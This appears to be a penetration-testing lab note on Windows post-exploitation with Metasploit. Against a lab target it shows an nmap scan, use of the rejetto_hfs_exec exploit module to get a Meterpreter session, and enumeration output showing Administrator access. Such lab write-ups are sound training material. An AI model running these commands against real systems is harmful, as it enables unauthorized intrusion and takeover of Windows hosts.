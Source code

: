 # 🔬Win Post Exploitation - MSF

## Lab 1 - HTTP/HFS

> 🔬 Same [HFS Exploitation lab](hfs-msf-exp.md)
>
> - Target IP: `10.2.16.114`
> - Metasploit **`post/multi/manage/shell_to_meterpreter`** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.16.114
setg RHOST 10.2.16.114
workspace -a Windows_PostExp
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.2.16.114
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc		 Microsoft Windows RPC
49154/tcp open  msrpc		 Microsoft Windows RPC
49155/tcp open  msrpc		 Microsoft Windows RPC
49165/tcp open  msrpc		 Microsoft Windows RPC
```

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
run
```

- In the new `Meterpreter` session, enumerate the Windows target

### Some commands

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```
